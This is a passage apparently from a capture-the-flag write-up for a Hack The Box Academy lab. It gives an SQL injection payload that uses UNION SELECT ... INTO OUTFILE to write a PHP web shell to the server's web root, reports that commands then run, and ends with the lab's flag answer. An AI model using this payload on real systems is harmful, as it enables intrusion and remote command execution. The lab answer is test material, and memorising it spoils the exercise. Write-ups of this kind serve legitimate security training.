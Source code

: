 Payload: `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220608150949.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220608150949.png)

Success! We can execute commands.

Cat the flag:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220608150753.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220608150753.png)

**Answer:** `528d6d9cedc2c7aab146ef226e918396`

---

**Tags:** [[Hack The Box Academy]]